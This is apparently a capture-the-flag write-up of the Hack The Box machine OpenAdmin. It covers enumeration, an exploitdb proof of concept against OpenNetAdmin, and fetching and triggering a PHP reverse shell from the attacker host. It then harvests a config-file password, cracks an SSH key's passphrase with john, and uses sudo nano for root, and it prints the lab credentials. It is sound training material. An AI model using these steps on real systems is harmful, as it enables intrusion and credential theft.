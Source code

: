 
# Work in progress

![OpenAdmin](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/openadmin.jpg)


## Enumeration
\
\
Start off with a detailed nmap scan:

![nmap](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nmap.png)
\

Next lets navigate to the webserver in our browser to verify that this in fact the apache default page:

```
http://10.10.10.171/
```
![webserver]
\
As expexted we get the apache default page.  Let's enumerate futher using gobuster:
```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x html,php,txt,asp,aspx -u http://10.10.10.171
```
![gobuster](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/gobuster.png)
\  
Let's look at the music page:

Music:

![music](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/music.png)
\

I clicked 'login' and it sent me to this page http://10.10.10.171/ona/:

![ona](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona.png)
\

Looks like the web appliaction that is running is out of date.  Now click the "ONA" and "About":

![about](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/ona_about.png)
\

Lets see if there are any vulnerabilities for OpenNetAdmin (ONA):

![searchsploit](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/searchsploit.png)

## Initial Foothold
\
After looking at the proof of concept found in exploitdb, we just need to edit the URL to point to the ONA web application:

![poc](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/poc.png)

Execute the bash script with the changes and we get a limited shell on the machine:

![shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/shell.png)

We are dropped in the /opt/www/ona directory, which is the root for ONA

## Pivoting to User 1
\

We cannot spawn a tty shell from here, so lets see if we can upload and execute a php-reverse-shell using the following commands:

```
# on our attacking machine
python -m SimpleHTTPServer

# on the target
wget http://10.10.14.152:8000/php-reverse-shell.php

# on either machine, ensure that you have a netcat listener before executing this
curl http://10.10.10.171/ona/php-reverse-shell.php
```

![phpshell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/phpshell.png)

I tried to access the user.txt file in the home directories of both users but was denied:

![userdeny](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userdeny.png)

After looking through the /var/www/ona directory (linked to /opt/ona/www), I found a database configuration file with a password:

![dbfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/dbfile.png)

Lets try to ssh with the credentials jimmy:n1nj4W4rri0R!:

![jimmy_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyshell.png)

## Pivoting to User 2
\

Success!  But there is no user.txt file in jimmy's home directory:

![jimmyhome](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/jimmyhome.png)

Jimmy cannot sudo on this device or access joanna's home directory.  Looking through the webroot /var/www I found an interesting directory called internal:

![internal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/internal.png)

Let's look at main.php:

![main](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/main.png)

So if we connect to this webserver, we should receive the private key (id_rsa) for joanna which we can then use to login.  Lets see if the we are listening on port 80:

![netstat](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/netstat.png)

The target is not listening on port 80, but is listening on port 52846, so lets try to connect to that to retrieve the private key:

```
curl http://127.0.0.1:52846/main.php
```
![rsa](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rsa.png)

We got the private key, but the message from main.php indicates that this private key is password protected, so we will need to use ssh2john (link) and john to crack the password:

Generate a crackable hash with ssh2john:

```
python /usr/share/john/ssh2john.py id_rsa > crack.txt
```
Now crack it with john:
```
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```
![john](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/john.png)

The password for id_rsa is bloodninjas, which goes along with the hint of "ninja" password we saw in the id_rsa.  Now lets try to login as joanna using the private key:

![joanna_shell](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/joannashell.png)

## User File 
\

![userfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/userfile.png)

## Privilege Escalation
\

Start by checking if joanna is allowed to run any commands with sudo:

![sudol](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/sudol.png)

Looks like we can open the file priv using nano with root privilieges:
```
Sudo /bin/nano /opt/priv 
```
There is a native ability in nano to read (CTRL+R) any file in the file system that you specify.  Lets try to read the root.txt file:

![nanoroot](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/nanoroot.png)

## Root File 

![rootfile](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/OpenAdmin/Images/rootfile.png)

